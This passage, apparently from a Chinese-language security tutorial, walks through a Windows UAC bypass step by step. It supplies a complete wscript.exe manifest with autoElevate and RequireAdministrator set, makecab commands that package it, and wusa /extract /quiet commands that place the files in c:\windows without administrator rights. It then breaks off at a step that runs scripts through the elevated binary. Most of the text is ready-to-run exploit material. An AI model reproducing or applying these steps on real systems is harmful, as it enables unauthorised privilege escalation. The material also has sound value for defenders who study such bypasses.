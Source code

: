 掌握操作流程后，我们完全可以手动进行拆分测试，在这个过程中能发现更多利用思路

### 1、保存wscript.exe.manifest文件

代码如下：


```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<assembly xmlns="urn:schemas-microsoft-com:asm.v1"
          xmlns:asmv3="urn:schemas-microsoft-com:asm.v3"
          manifestVersion="1.0">
  <asmv3:trustInfo>
    <security>
      <requestedPrivileges>
        <requestedExecutionLevel level="RequireAdministrator" uiAccess="false"/>
      </requestedPrivileges>
    </security>
  </asmv3:trustInfo>
  <asmv3:application>
    <asmv3:windowsSettings xmlns="http://schemas.microsoft.com/SMI/2005/WindowsSettings">
      <autoElevate>true</autoElevate>
      <dpiAware>true</dpiAware>
    </asmv3:windowsSettings>
  </asmv3:application>
</assembly>
```




### 2、使用makecab制作cab文件

cmd:

```
makecab c:\windows\system32\wscript.exe %TMP%\1.tmp
makecab wscript.exe.manifest %TMP%\2.tmp
```


### 3、使用wusa解压缩cab文件并释放至c:\windows

cmd:

```
wusa %TMP%\1.tmp /extract:"c:\windows" /quiet
wusa %TMP%\2.tmp /extract:"c:\windows" /quiet
```

**注：**

该方法成功的关键在于使用wusa能够将cab文件解压缩至c:\windows，通常情况下，向c:\windows目录释放文件需要管理员权限，而借助wusa，普通用户权限即可，当然其他管理员权限的目录也可以，例如： `C:\Windows\addins`


### 4、使用该wscript.exe执行vbs或者js脚本
